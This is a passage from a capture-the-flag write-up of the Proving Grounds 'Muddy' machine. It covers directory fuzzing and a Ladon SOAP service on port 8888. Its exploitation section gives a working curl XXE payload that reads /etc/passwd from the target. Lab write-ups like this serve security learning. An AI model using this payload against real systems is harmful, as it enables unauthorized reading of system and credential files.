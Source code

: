 ### Directory Fuzzing

![img](/assets/images/CTF/Proving_Grounds/Muddy/web1.png)

Directory `webdav` was found but it's been password protected.

![img](/assets/images/CTF/Proving_Grounds/Muddy/dir.png)

## 8888/tcp open  http       WSGIServer 0.1 (Python 2.7.16)

![img](/assets/images/CTF/Proving_Grounds/Muddy/web2.png)

The framework Laden is vulnerable to [Ladon Framework for Python 0.9.40 - XML External Entity Expansion](https://www.exploit-db.com/exploits/43113) vulnerabilty.

### Exploitation

```text
curl -i -s -k -X $'POST' \
    -H $'Host: muddy.ugc:8888' -H $'User-Agent: curl/7.87.0' -H $'Accept: */*' -H $'Content-Type: text/xml;charset=UTF-8' -H $'SOAPAction: \"http://muddy.ugc:8888/muddy/soap11/sayhello\"' -H $'Content-Length: 496' -H $'Connection: close' \
    --data-binary $'<?xml version=\"1.0\"?>\x0a<!DOCTYPE uid\x0a[<!ENTITY passwd SYSTEM \"file:///etc/passwd\">\x0a]>\x0a<soapenv:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\"\x0axmlns:xsd=\"http://www.w3.org/2001/XMLSchema\"\x0axmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"\x0axmlns:urn=\"urn:HelloService\"><soapenv:Header/>\x0a<soapenv:Body>\x0a<urn:checkout soapenv:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\x0a<uid xsi:type=\"xsd:string\">&passwd;</uid>\x0a</urn:checkout>\x0a</soapenv:Body>\x0a</soapenv:Envelope>' \
    $'http://muddy.ugc:8888/muddy/soap11'
```
